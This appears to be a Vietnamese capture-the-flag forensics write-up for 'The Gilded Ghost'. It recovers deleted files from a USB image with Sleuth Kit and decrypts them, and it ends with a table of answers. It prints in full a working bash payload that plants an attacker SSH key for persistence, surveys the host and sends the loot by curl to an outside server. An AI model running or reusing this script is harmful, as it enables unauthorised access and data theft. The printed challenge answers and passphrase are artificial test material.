






# Challenge The Gilded Ghost

## 1. Đầu vào challenge

Challenge cung cấp file `usb.img`, đây là file USB disk image, chứa MBR partition table. Khi check bằng `file` thấy image có 1 partition kiểu FAT32, bắt đầu tại sector `2048`.



Vì sector size mặc định là `512` bytes, nên offset để mount partition là:

```text
2048 * 512 = 1048576 bytes
```

Vậy giờ mount file này ra để truy cập vào filesystem bên trong USB image và đọc các file có trong đó.

```bash
sudo mount -o ro,loop,offset=1048576 usb.img mnt_usb
```
### Kiến thức ngoài lề

- `FAT32` là một filesystem phổ biến thường được dùng trên USB, thẻ nhớ và các thiết bị lưu trữ di động vì có khả năng tương thích tốt với nhiều hệ điều hành như Windows, Linux và macOS.

- `MBR partition table`, hay `Master Boot Record`, là kiểu bảng phân vùng cũ dùng để mô tả cách ổ đĩa được chia thành các phân vùng.

- `Sector` là đơn vị lưu trữ nhỏ nhất mà ổ đĩa có thể đọc hoặc ghi trực tiếp.

---

## 2. Task 1 - What filesystem is used in the USB image?

Từ kết quả khi check bằng lệnh `file`, ta thấy `usb.img` có một partition với type là DOS/MBR boot sector và partition 1 được ghi là `FAT32`.

**Vậy đáp:** `FAT32`

---

## 3. Task 2 - What is the partition start offset (in sectors) for the filesystem?

Tương tự cũng từ kết quả của lệnh `file`, thấy partition 1 có thông tin `startsector` là `2048`.


**Vậy đáp:** `2048`

---

## 4. Task 3 - What file explains how to use the payload?

Khi mount file xong, check file đã mount thấy được có 3 file `.txt`, đọc 3 file này để xem file nào có nội dung hướng dẫn sử dụng payload.



### Nhận xét

`README.txt` chứa phần “Operator notes”, hướng dẫn cách sử dụng payload. Trong `README.txt` có nhắc đến việc chạy setup script từ removable media, xác nhận drop hoàn tất, sau đó xóa `setup.sh` và `payload.enc`.

**Vậy đáp:** `README.txt`

---

## 5. Task 4 - What is the Sleuth Kit metadata address (inode number shown by fls) for the deleted setup.sh file?

Dùng Sleuth Kit để liệt kê cả file thường và file đã xóa trong filesystem.

Vì partition bắt đầu ở sector `2048`, sử dụng option `-o 2048`:

```bash
fls -o 2048 -rd usb.img
```



Từ đây thấy được file `setup.sh` và `payload.enc` đã bị xóa, thể hiện qua dấu `*` trong output của `fls`.

Đồng thời trong output của Sleuth Kit, số đứng trước dấu `:` chính là metadata address hay inode number của file đó.

### Kiến thức ngoài lề

Metadata address hay inode number trong Sleuth Kit là số định danh của một file hoặc thư mục trong filesystem. Dựa vào số này có thể dùng các công cụ khác như `icat` để đọc hoặc khôi phục nội dung file, kể cả khi file đó đã bị xóa.

**Vậy đáp:** `13`

---

## 6. Task 5 - What encryption algorithm is used to protect the payload? (format: ***-***-***)

Sử dụng `icat` để đọc nội dung file `setup.sh` đã bị xóa.

```bash
icat -o 2048 usb.img 13
```



Từ nội dung file `setup.sh` đã bị xóa, ta thấy script sử dụng lệnh `openssl` để giải mã file `payload.enc`. Trong đó payload được mã hóa bằng `aes-256-cbc`.

**Vậy đáp:** `aes-256-cbc`

---

## 7. Task 6 - What key/passphrase is used to decrypt the encrypted payload?

Từ nội dung của file `setup.sh` trong câu hỏi trước thấy được biến `KEY` được khai báo như sau:

```bash
KEY="AllH4!lVANE!!!"
```

**Vậy đáp:** `AllH4!lVANE!!!`

---

## 8. Task 7 - What is the attacker's SSH public key comment/identity string?

Đầu tiên cần khôi phục file `payload.enc` đã bị xóa bằng `icat`, sau đó decrypt bằng thuật toán và key đã tìm được ở các task trước.

```bash
icat -o 2048 usb.img 15 > payload.enc
openssl enc -d -aes-256-cbc -pbkdf2 -iter 100000 -salt \
  -pass 'pass:AllH4!lVANE!!!' \
  -in payload.enc \
  -out payload.txt
```

Kết quả thu được:

```bash
#!/bin/bash
set -euo pipefail

EXFIL_URL="http://uplink.korvia.gov:8080/api/v1/ingest"

GHOST_PUB='ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnCjVpE+SqRDTKLN5IYDYULJGXmAItja5qNt34cma07 D9:GildedWeaver:Ghost'

# --- Persistence: add attacker SSH key ---
mkdir -p "${HOME}/.ssh" 2>/dev/null || true
chmod 700 "${HOME}/.ssh" 2>/dev/null || true

AUTH_KEYS="${HOME}/.ssh/authorized_keys"
touch "${AUTH_KEYS}" 2>/dev/null || true
chmod 600 "${AUTH_KEYS}" 2>/dev/null || true

# Append only if not already present
grep -qxF "${GHOST_PUB}" "${AUTH_KEYS}" 2>/dev/null || echo "${GHOST_PUB}" >> "${AUTH_KEYS}" 2>/dev/null || true

# --- Enumeration ---
OUTDIR="/tmp/gw"
mkdir -p "${OUTDIR}"

{
  echo "[D9] unit=GildedWeaver operator=Ghost"
  date 2>/dev/null || true
  echo
  echo "[whoami]"
  id 2>/dev/null || true
  echo
  echo "[hostname]"
  hostname 2>/dev/null || true
  echo
  echo "[uname]"
  uname -a 2>/dev/null || true
  echo
  echo "[ip]"
  (ip a || ifconfig) 2>/dev/null || true
  echo
  echo "[routes]"
  (ip route || route -n) 2>/dev/null || true
  echo
  echo "[processes]"
  ps aux 2>/dev/null || true
} > "${OUTDIR}/survey.txt"

# Bundle the loot
tar -czf "${OUTDIR}/loot.tar.gz" -C "${OUTDIR}" survey.txt 2>/dev/null || true

# --- Exfil ---
if command -v curl >/dev/null 2>&1; then
  curl -sS -m 3 -X POST -F "file=@${OUTDIR}/loot.tar.gz" "${EXFIL_URL}" >/dev/null 2>&1 || true
fi
```

Thấy SSH public key:

```text
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnCjVpE+SqRDTKLN5IYDYULJGXmAItja5qNt34cma07 D9:GildedWeaver:Ghost
```

Với SSH public key, phần cuối cùng sau key chính là comment / identity string.

**Vậy đáp án là:** `D9:GildedWeaver:Ghost`

---

## 9. Task 8 - What the fullpath of the file that was exfiltrated?

Vẫn từ script decrypt ra thấy được payload tạo thư mục output tại:

```bash
OUTDIR="/tmp/gw"
```

Sau đó bundle file `survey.txt` thành archive:

```bash
tar -czf "${OUTDIR}/loot.tar.gz" -C "${OUTDIR}" survey.txt 2>/dev/null || true
```



Vậy full path của file bị exfiltrate là:

```text
/tmp/gw/loot.tar.gz
```

**Vậy đáp án là:** `/tmp/gw/loot.tar.gz`

---

## 10. Task 9 - What is the exfiltration destination (full URL path)?

Vẫn từ nội dung script đã decrypt, biến `EXFIL_URL` được khai báo là:

```bash
EXFIL_URL="http://uplink.korvia.gov:8080/api/v1/ingest"
```



**Vậy đáp án là:** `http://uplink.korvia.gov:8080/api/v1/ingest`

---

## 11. Bảng câu hỏi - đáp án

| Task | Câu hỏi | Đáp án |
|---|---|---|
| 1 | What filesystem is used in the USB image? | `FAT32` |
| 2 | What is the partition start offset (in sectors) for the filesystem? | `2048` |
| 3 | What file explains how to use the payload? | `README.txt` |
| 4 | What is the Sleuth Kit metadata address (inode number shown by fls) for the deleted setup.sh file? | `13` |
| 5 | What encryption algorithm is used to protect the payload? | `aes-256-cbc` |
| 6 | What key/passphrase is used to decrypt the encrypted payload? | `AllH4!lVANE!!!` |
| 7 | What is the attacker's SSH public key comment/identity string? | `D9:GildedWeaver:Ghost` |
| 8 | What the fullpath of the file that was exfiltrated? | `/tmp/gw/loot.tar.gz` |
| 9 | What is the exfiltration destination (full URL path)? | `http://uplink.korvia.gov:8080/api/v1/ingest` |

---

